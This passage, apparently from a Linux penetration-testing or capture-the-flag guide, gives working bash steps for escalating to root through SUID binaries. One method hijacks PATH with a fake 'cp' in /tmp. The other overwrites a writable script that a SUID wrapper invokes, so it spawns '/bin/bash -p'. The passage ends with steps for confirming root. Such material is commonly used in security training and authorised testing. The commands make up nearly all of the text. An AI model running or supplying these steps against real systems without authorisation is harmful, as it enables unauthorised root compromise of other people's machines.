 ```bash
# 4) Libraries and RPATH/RUNPATH clues (sometimes useful)
readelf -d /path/to/suid_binary | egrep -i 'rpath|runpath'
ldd /path/to/suid_binary
```

Exploit PATH hijacking (when a SUID binary shells out to a command without an absolute path)
```bash
# Suppose ltrace/strings shows the SUID binary runs: system("cp /tmp/x /var/backup/x")
# and uses "cp" (no absolute path). We’ll hijack "cp" via PATH.

# 1) Create a malicious cp in /tmp (spawns a root shell)
cat > /tmp/cp << 'EOF'
#!/bin/sh
/bin/bash -p
EOF
chmod +x /tmp/cp

# 2) Prepend /tmp to PATH so our cp is found first
export OLD_PATH="$PATH"
export PATH=/tmp:$PATH

# 3) Run the SUID binary to trigger our payload
/path/to/suid_binary

# 4) You should get a root shell; verify:
id; whoami

# 5) Cleanup PATH
export PATH="$OLD_PATH"
rm -f /tmp/cp
```

Exploit writable script invoked by SUID wrapper
```bash
# Suppose strings/strace shows it runs /usr/local/bin/backup.sh
# Check if the script is writable:
ls -la /usr/local/bin/backup.sh

# If writable by our user or group:
printf '#!/bin/sh\n/bin/bash -p\n' > /usr/local/bin/backup.sh
chmod +x /usr/local/bin/backup.sh

# Run the SUID binary to gain root shell via the modified script
/path/to/suid_binary
id; whoami
```

Verifying and stabilizing
```bash
# Confirm you have effective UID 0
id
# Keep root euid when spawning shells
/bin/bash -p
```
